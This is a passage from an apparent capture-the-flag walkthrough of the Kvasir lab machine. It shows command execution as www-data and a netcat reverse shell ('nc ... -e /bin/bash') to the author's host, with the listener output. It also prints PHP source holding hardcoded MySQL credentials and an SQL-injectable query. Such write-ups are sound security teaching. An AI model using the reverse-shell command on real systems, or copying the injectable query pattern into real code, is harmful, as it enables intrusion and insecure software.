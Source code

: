 ```bash
(kvasir)root@kali:~# python cmd.py "id"
Command to run: id

uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

And so, initial enumeration was done. Immediately I noticed that this host had 2 network interfaces. **192.168.1.100** and **192.168.2.100**. No sign of **192.168.56.102** here... It also seemed like I would be able to build a netcat shell out of this environment to my attacking host, so I set up a listener with `nc -lvp 4444`, and connected to it using my `cmd.py` script `python cmd.py "/bin/nc 192.168.56.101 4444 -e /bin/bash"`:

```bash
root@kali:~# nc -lvp 4444
listening on [any] 4444 ...
192.168.56.102: inverse host lookup failed: Unknown server error : Connection timed out
connect to [192.168.56.101] from (UNKNOWN) [192.168.56.102] 53516
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

So, in order to make sure we don't lose our place, consider the following simple diagram showing the network paths for gaining first shell access to the host `web`:

{{< figure src="/images/kvasir_network_graph_1.png" >}}

The only public presence of the internal network is therefore the originally discovered **192.168.56.102** IP address.

## my-see-qual as root deserves a slap on the wrist
With semi interactive shell access using `netcat` to **web** (192.168.1.100), some more enumeration was done. Most importantly, the sources serving the web site that I have exploited to gain a command shell revealed credentials and a host of a MySQL instance. Consider the following extract from `member.php`:

```php
<?php

session_start();

if (!isset($_SESSION["member"])) {
    header("Location: index.php");
}

$user = $_SESSION["username"];

mysql_connect("192.168.2.200", "webapp", "webapp") or die(mysql_error());
mysql_select_db("webapp") or die(mysql_error());

$query = "SELECT dob FROM users WHERE username='$user'";
$result = mysql_query($query) or die(mysql_error());

?>
[... snip ...]
```
